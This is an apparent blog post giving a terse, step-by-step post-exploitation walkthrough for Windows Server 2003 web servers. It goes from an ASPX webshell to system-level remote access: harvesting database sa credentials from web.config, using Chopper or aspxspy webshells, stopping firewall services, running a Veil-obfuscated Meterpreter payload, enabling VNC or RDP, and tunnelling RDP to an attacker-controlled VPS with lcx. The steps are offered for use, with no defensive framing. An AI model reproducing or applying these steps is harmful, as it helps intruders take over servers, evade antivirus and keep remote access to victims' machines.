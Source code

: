 ```yaml
---
layout:     post
title:      windows 2003 r2 aspx
date:       2016-04-09
author:     quanyechavshuo
summary:    how to get system shell from webshell window 2003 r2 aspx
categories: web
thumbnail:  heart
tags:
 - windows
 - aspx
---
```


### 1>search web.config———> to find sa and sa password

### 2>choppper(or aspxspy)to connect db,get sa privilege 
    sometimes strong webshell (like aspxspy.aspx) cannot get system privilege with sa and pass,try:
    1.use sa execute cmd in chopper
    or
    2.restart the system and try strong webshell like aspxspy.aspx

### 3>net stop sharedaccess

### 4>net stop policyagent

### 5>use sa pri run meterpreter(use veil to jail) payload

### 6>use meterpreter shell to open vnc or desktop
    meterpreter>run vnc
    or
    meterpreter>background
    msf>use post/windows/manage/enable_rdp

### 7>if 6 fail,use sa privileges(in chopper)to run:
    victim:lcx -slave vps_ip vps_port victim_ip 3389
    vps:lcx -listen vps_port 1234
    vps:mstsc /console /v:127.0.0.1:1234  

    Notice:normally,mstsc---->127.0.0.1:1234 is ok,sometimes exists connect num restrict,use it.in win7: need runas admin,and use:mstsc /console /v:127.0.0.1:1234 -admin
